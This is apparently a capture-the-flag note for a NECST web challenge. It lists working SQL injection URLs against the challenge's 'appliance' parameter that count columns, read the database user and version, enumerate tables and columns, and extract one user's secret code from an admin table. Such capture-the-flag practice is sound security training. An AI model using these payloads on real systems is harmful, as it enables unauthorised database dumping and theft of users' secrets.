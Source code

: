 Hint: DUmp the db to see the tables and columns.

Useful resource: [https://resources.infosecinstitute.com/topic/dumping-a-database-using-sql-injection/]

Working queries:

- https://web4.chall.necst.it/home.php?appliance=" UNION ALL SELECT * FROM appliances, images ; -- "
- https://web4.chall.necst.it/home.php?appliance=" UNION SELECT NULL, NULL, NULL, NULL ; -- -

Table "images" has 3 fields:
- [x] https://web4.chall.necst.it/home.php?appliance=" UNION SELECT images.*, NULL from images ; -- - 
- [ ] https://web4.chall.necst.it/home.php?appliance=" ORDER BY 1 ; -- - 

Finds current user, version, and db name:
- https://web4.chall.necst.it/home.php?appliance=" UNION SELECT user(), NULL, NULL, NULL ; -- - 
- https://web4.chall.necst.it/home.php?appliance=" UNION SELECT user(), @@version, database(), NULL ; -- - 

Find tables and columns in the db:
- https://web4.chall.necst.it/home.php?appliance=" UNION SELECT group_concat(table_name), NULL, NULL, NULL from information_schema.tables where table_schema=database(); -- - 
- https://web4.chall.necst.it/home.php?appliance=" UNION SELECT group_concat(column_name), NULL, NULL, NULL from information_schema.columns where table_schema=database(); -- - 

Find the secret of the user "Bradley@bargainkingdom.com" from table "super_secret_admin_table" (id,email,code_1):
- https://web4.chall.necst.it/home.php?appliance=" UNION SELECT *, NULL from super_secret_admin_table where email="Bradley@bargainkingdom.com"; -- - 
